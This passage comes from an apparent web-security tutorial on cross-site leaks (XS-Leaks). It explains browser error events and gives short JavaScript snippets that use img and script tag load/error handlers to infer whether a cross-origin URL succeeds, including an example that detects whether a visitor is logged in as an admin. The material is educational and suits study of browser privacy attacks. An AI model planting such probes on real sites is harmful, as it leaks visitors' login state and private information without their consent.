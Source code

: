 When a web page sends a request, the server receives and processes it. After processing, it returns a response status based on whether the request succeeded (e.g., 200 OK, 404 Not Found).

Additionally, if the response has an error status, the browser will fire an error event.

```jsx
addEventListener("error", (event) => {});

onerror = (event) => {};
```

You can catch the onerror event using addEventListener or onerror.

The code below is an example of catching error events using the img tag.

```jsx
function getError(url) {
  const img = document.createElement("img");
  img.src = url;

  img.onload = () => console.log("success");
  img.onerror = () => console.log("error");
  document.body.appendChild(img);
}

getError("https://example.com/nonexists.png");
getError("https://example.com/");
```

Error events can be triggered by many HTML elements besides `<img>`. For example, you can use the `onerror` attribute on tags that load cross-origin resources—such as `<script>`, `<img>`, and `<link>`—to detect failures. Browser behavior may vary depending on factors like the presence of certain headers (e.g., `X-Content-Type-Options: nosniff`, `Content-Type`) or built-in security protections.

By leveraging these error events, you can similarly determine response status as you would with the “Checking Response Status with CSS Tricks” method introduced later.

### Example of Error Events XS-Leak

A typical example is checking whether you are logged in.

```jsx
const url = "https://example.org/admin";
const script = document.createElement("script");

script.addEventListener("load", (e) => {
  console.log(`${url} exists`);
});

script.addEventListener("error", (e) => {
  console.log(`${url} does not exist`);
});

script.src = url;
document.head.appendChild(script);
```

This code works by requesting the admin page: if it loads successfully, you know the target is logged in as an admin; if it throws an error, they’re not an admin.
